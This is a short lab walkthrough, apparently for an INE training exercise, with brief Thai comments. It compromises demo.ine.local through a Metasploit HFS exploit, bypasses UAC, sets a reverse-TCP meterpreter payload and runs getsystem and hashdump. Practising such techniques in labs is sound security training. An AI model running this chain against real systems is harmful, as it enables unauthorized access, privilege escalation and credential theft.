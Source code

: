 `nmap -sC -sV demo.ine.local`

`msfconsole`
`search hfs`
`use 0`
`set RHOSTS demo.ine.local`

`whoami`
victim\admin

โจทย์ชื่อ UAC Bypass: Memory Injection คงไม่ต้องเดาอะไรมากแล้ว

`background`
keep session

`search bypassuac`
`use 0`
`set SESSION 1`
`run`

`set PAYLOAD windows/x64/meterpreter/reverse_tcp`
อย่าลืม getprivs ใช้สิทธิ

`getsystem`
`hashdump`

๊UAC เจอบ่อย มันไม่ใช่บัคด้วย !!! ถ้าเป็น  admin group แล้วไม่มีสิทธิ ยกได้เสมอ